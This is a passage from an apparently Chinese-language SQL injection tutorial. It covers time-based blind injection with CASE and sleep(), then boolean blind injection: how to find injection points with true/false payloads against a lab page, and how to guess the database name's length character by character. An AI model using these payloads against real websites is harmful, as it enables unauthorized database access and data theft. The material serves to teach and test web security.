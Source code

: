 结合CASE语句也可以实现类似的效果

```sql
select case when username='admin' then 'admin' else sleep(3) end from users;
```



### bool型盲注

这类盲注的特点是页面只返回True或False两种情况，需要根据这个猜数据

两个相关的截取函数

```sql
left(str,length)
right(str,length)
```

转换成数字可以使用到

```sql
ascii()
ord()
```

两个函数作用都是求字符串首字母的ascii值



#### 判断注入点

bool型盲注的注入点不能通过报错判断，sql执行失败和没有查到数据都会返回false的页面

只能通过逻辑值判断

```sql
/* 整型注入 */
sql-bool.php?name=user1 and 1=1
sql-bool.php?name=user1 and 1=2
/* 字符型注入 */
sql-bool.php?name=user1' and '1'='1
sql-bool.php?name=user1' and '1'='2
/* 字符型注入 */
sql-bool.php?name=user1" and "1"="1
sql-bool.php?name=user1" and "1"="2
```

根据页面的返回情况判断注入的类型



#### 获取数据

由于盲注没有返回结果，获取数据是使用字符串截取的函数对字符串逐位比较得到的

首先要猜字段的长度

```sql
/* 判断库名长度 */
sql-bool.php?name=user1' and (select length(database())) = 1 and '1'='1
sql-bool.php?name=user1' and (select length(database())) = 2 and '1'='1
sql-bool.php?name=user1' and (select length(database())) = 3 and '1'='1
sql-bool.php?name=user1' and (select length(database())) = 4 and '1'='1
```